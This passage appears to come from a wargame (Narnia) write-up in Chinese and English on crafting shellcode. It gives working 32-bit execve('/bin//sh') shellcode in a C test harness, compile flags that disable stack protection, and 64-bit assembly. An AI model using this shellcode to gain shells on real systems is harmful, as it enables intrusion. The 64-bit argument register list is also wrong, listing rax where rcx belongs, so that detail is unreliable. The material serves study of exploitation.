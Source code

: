 ```c++
// create shellcode.c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();
	return 0;
}
```

```sh
narnia2@narnia:/tmp$ gcc -m32 -fno-stack-protector -z execstack shellcode.c -o shellcode
narnia2@narnia:/tmp$ ./shellcode
Shellcode Length:  25
$ whoami
narnia2
$ exit
narnia2@narnia:/tmp$
```

### Crafting Shellcode on 64-bit executable binary file

64位可执行文件的ShellCode注入原理和思路与32位一致，只不过64位系统使用寄存器传递参数（参数个数不超过6个），依次为`rdi`,`rsi`,`rdx`,`rax`,`r8`,`r9`;同时系统调用变成了59；

```assembly
; Create shellcode.asm
global _start
_start:
; Clearing rdi, rsi, rdx, rax registers
xor rdi, rdi	
xor rsi, rsi
xor rdx, rdx
xor rax, rax
push rax
; 68 73 2f 6e 69 62 2f 2f  -> /bin//sh
mov rbx, 68732f6e69622f2fH
push rbx
mov rdi, rsp
mov al, 59
syscall
```
